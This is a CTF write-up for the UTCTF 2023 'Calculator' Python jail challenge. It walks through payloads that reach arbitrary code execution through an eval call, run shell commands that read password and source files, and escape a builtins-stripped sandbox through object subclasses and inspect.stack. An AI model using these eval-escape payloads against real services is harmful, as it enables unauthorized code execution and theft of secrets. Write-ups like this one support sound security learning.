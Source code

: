 ```yaml
---
layout: post
title: Calculator - UTCTF 2023
categories: writeups
tags: utctf web-exploitation pyjail
description: Writeups for challenges I solved at UTCTF 2023.
---
```


<img src="{{ "assets/writeups/utctf-2023/utctf.png" | relative_url }}" alt="Calculator's challenge prompt" width="50%"/>

This past weekend I briefly took a look at a couple challenges from UTCTF 2023. There were a few interesting challenges and I wanted to writeup my solve of one of them. My team, Psi Beta Rho, has been taking a look at *pyjail* challenges recently and I was excited that I was able to solve one!

## Prompt

<img src="{{ "assets/writeups/utctf-2023/prompt.png" | relative_url }}" alt="Calculator's challenge prompt" width="70%"/>

Visiting the challenge page, we are presented with a simple interface with the title "A Smart Number Guessing Game" where we have to guess the correct number from each level to get a password to reach the next level. After trying a few attempted inputs, the resulting number is truly random and we have no way of guessing the correct number. After attempting an input of `1+1`, I was able to discern that this was potentially a *pyjail* challenge.

### Level 0

Beginning with the first level, since I discerned that this was a *pyjail* challenge, I attempted to achieve RCE by inputting a common payload, `__import__('os').system('ls')`. This resulted in the following output:

```python
> __import__('os').system('ls')
password.txt
problem.py
Result: 0.  The correct answer was 3935931108.
```

The above is a common *pyjail* one-liner that utilizes Python's dunder or magic functions to call functions. The above code is equivalent to the following Python code:

```python
import os
os.system('ls')
```

Now that we know that we can execute arbitrary Python code, we can attempt to do further reconnaissance on the system. I attempted to read the contents of the `problem.py` file to see what the code was doing:

```python
> __import__('os').system('cat problem.py')
import random
password = open("password.txt").read()
solution = random.getrandbits(32)

answer = input()
result = eval(answer)

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")
Result: 0.  The correct answer was 2570371923.
```

In the above leaked source code, we see the core vulnerability of the user's input being directly passed into an `eval` allowing the execution of arbitrary code. We can then grab the first password by reading the contents of the `password.txt` file. Submitting this password, we can the progress to the next level.

```python
> __import__('os').system('cat password.txt')
PuXqj7n4WNZzStnWbtPvResult: 0.  The correct answer was 2105213148.
```
The following is an additional solution to leak the password.

```python
> password
PuXqj7n4WNZzStnWbtPvResult: 0.  The correct answer was 2105213148.
```

### Level 1

Trying the same payload as before, we get the following output:

```python
> __import__('os').system('cat problem.py')
import random
password = open("password.txt").read()
solution = random.getrandbits(32)

answer = input()
# No locals allowed!
result = eval(answer, {"open": None})

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")
Result: 0.  The correct answer was 2758269906.
```

We notice that `eval` has been restricted so that the `open` function can no longer be used. The solution to the first level still worked so we can still read the contents of the `password.txt` file and move on to the next level.

```python
> __import__('os').system('cat password.txt')
Krdi9yQuY8mHoteZDCF5Result: 0.  The correct answer was 4248372865.
```

### Level 2

Trying the same payload as before, we get the following output:

```python
> __import__('os').system('cat problem.py')
import random, os
password = open("password.txt").read()
os.remove("password.txt") # No more reading the file!

solution = random.getrandbits(32)

answer = input()
result = eval(answer, {})

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")
Result: 0.  The correct answer was 1887084712.
```

We notice that there are no longer any restrictions on `eval` like the previous level. However, the `password.txt` file is deleted before we can read it! I ran through a couple of potential ideas to try to recover the password. One idea I potentially had was to look for looking for dangling file descriptors since the `open` function was called before the `close` function was called on the file descriptor. Another idea was that the terminal history might have the password in it. Checking the `/proc/self` directory in `/proc/self/fd` and `/proc/self/cmdline` revealed that the file descriptors were properly closed and the terminal history was not stored. I then realized that the `password` variable was still in scope and could be accessed. After these attempts, I finally came up with the following payload.

```python
> __import__('__main__').password
Result: E46Dnqb5enAMgGArbruu.  The correct answer was 877245485.
```

The `__main__` dunder is the reserved name for the main module which the program is currently running. Importing this module allows us to access the `password` variable in the main module's scope because Python allows access to variables in the global scope of a module. After accessing this global, we are able to submit this password and move on to the next level. 

After talking with some other competitors and the organizers after the CTF was over, I learned that this was actually an unintended solution. The intended solution was to take advantage of the `inspect` module where the `stack` function can be used to access the globals of the calling frame. More explanation will be included in the next part of this writeup.

### Level 3

Starting the level with the same set up payload as before, we get the following error.

```python
> __import__('os').system('cat problem.py')
Traceback (most recent call last):
  File "problem.py", line 9, in <module>
    result = eval(answer, {"__builtins__": {}})
  File "<string>", line 1, in <module>
NameError: name '__import__' is not defined
```

The namespace of the `eval` is now more restrictive to set `__builtins__` to `{}`. Many essential functions such as `__import__` are a part of `__builtins__` so we can no longer use the same payload as before. Luckily, this was something that my team had talked about recently (shoutout to Jason An for sharing this idea at PBR practice)! The goal of this level is to recover `__builtins` so that we can use the same payload as before. The following is the payload that I used to recover the final password!

```python
> ().__class__.__base__.__subclasses__()[-25].__init__.__globals__['__builtins__']['__import__']('__main__').password
Result: 5F4p7aLgQ5Nfn5YM8s68.  The correct answer was 425718691.
```

The first part of the payload, `().__class__.__base__.__subclasses__()`, takes advantage of all of Python's types being objects. `().__class__` is a tuple which returns `<class 'tuple'>`. The corresponding base class is `<class 'object'>` which is the base class of all Python objects. The `__subclasses__` function returns a list of all the subclasses of the object parent object. For this reason, we are able to recover the list of all the subclasses of the `object` class which contains all modules. A key thing to understand about `cpython`, the main interpreter for Python is that a number of its modules are written in Python, but some of its modules are written in C. Only the modules written in Python have `__globals__` defined on them. For this reason, we need to find a module that is written in Python. Iterating backwards, I worked from index -1 till I found a module at index -25 where `__globals__` was defined. From there, we are able to recover `__builtins__` from the `__globals__` dictionary and we are then able to recover the `__import__` function from the `__builtins__` dictionary. We can then use the same payload as before to recover the password. Inputting the final password, we get the flag!

<img src="{{ "assets/writeups/utctf-2023/solve.png" | relative_url }}" alt="Calculator's solve" width="70%"/>

Speaking with the challenge author after the CTF, I learned that the intended solution was to use the `inspect` module. The `stack` function in the `inspect` module returns a list of frame records for the current call stack. The frame records contain the global variables of the calling frame. The following is the intended solution.

```python
(lambda b=((lambda n:[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__==n][0])("catch_warnings")()._module.__builtins__):
    b["eval"]("""[frame.frame.f_locals.get("password") for frame in __import__("inspect").stack()]""", {"__builtins__": b})
)()
```

`catch_warnings` is an alternate path to recover `__builtins__`. The main idea of the solution is to call the `stack` function from the `inspect` module. `cpython`'s call stack stores the locals of each frame on the stack. The above script grabs the stack and then traverses every frame on the stack to access locals to get the `password` variable.
